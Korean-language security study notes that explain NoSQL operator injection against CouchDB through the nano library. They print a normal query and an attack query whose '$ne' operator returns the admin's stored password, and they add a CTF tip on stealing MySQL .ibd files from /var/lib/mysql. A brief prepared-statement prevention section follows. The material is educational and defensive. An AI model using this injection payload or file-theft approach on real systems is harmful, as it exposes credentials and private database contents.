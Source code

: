 객체 형태의 데이터를 입력받을 때 입력 값에 대한 검사가 부재하거나 미흡하다면 문제가 발생할 수 있음
selector 안에서 operator를 사용할 수 있는데, 연산자가 이에 포함됨
따라서 공격자가 조건 식을 만들고, 조건에 해당하지 않는 데이터를 모두 획득할 수 있음
아래는 각각 올바르게 데이터를 조회하는 모습과 연산자를 통해 데이터베이스의 중요 정보를 획득한 모습
이처럼 find 함수의 인자로 이용자의 입력 값이 전달되고, 문자열 타입이 아닌 객체 타입의 값을 입력할 수 있다면 데이터베이스의 중요 정보를 획득할 수 있음

		//정상적인 쿼리 전송

> require('nano')('http://{username}:{password}@localhost:5984').use('users').find({'selector': {'_id': 'guest', 'upw': 'guest'}}, function(err, result){ console.log('err: ', err, ',result: ', result) })

	/*
	undefined
	err:  null ,result:  { docs:
	   [ { _id: 'guest',
		   _rev: '1-22a458e50cf189b17d50eeb295231896',
		   upw: 'guest' } ],
	  bookmark:
	   'g1AAAAA6eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzppemFpeAJDlgkgjhLADZAxEP',
	  warning:
	   'No matching index found, create an index to optimize query time.' }
	*/

	//연산자를 포함한 공격 쿼리 전송

> require('nano')('http://{username}:{password}@localhost:5984').use('users').find({'selector': {'_id': 'admin', 'upw': {'$ne': ''}}}, function(err, result){ console.log('err: ', err, ',result: ', result) })

	/*
	undefined
	err:  null ,result:  { docs:
	   [ { _id: 'admin',
		   _rev: '2-142ddb6e06fd298e86fa54f9b3b9d7f2',
		   upw: 'secretpassword' } ],
	  bookmark:
	   'g1AAAAA6eJzLYWBgYMpgSmHgKy5JLCrJTq2MT8lPzkzJBYqzJqbkZuaBJDlgkgjhLADVNBDR',
	  warning:
	   'No matching index found, create an index to optimize query time.' }
	*/

---

# idb파일
- 간혹 문제를 풀다보면 파일에 있는 데이터를 읽을 수 있는 경우가 생기는데 이를 이용해 db파일을 탈취할 수 있음
- 그 파일을 .ibd파일이라고 
- .ibd파일은`/var/lib/mysql/{database_name}/{c}.idb` 이런 경로로 존재


---
# SQL Injection Prevention Tech
### Prepared Statement
- 쿼리를 파라미터화 하여 안전하게 처리
- 사용자의 입력이 SQL 명령어로 해석되지 않고 데이터로만 처리되도록 함
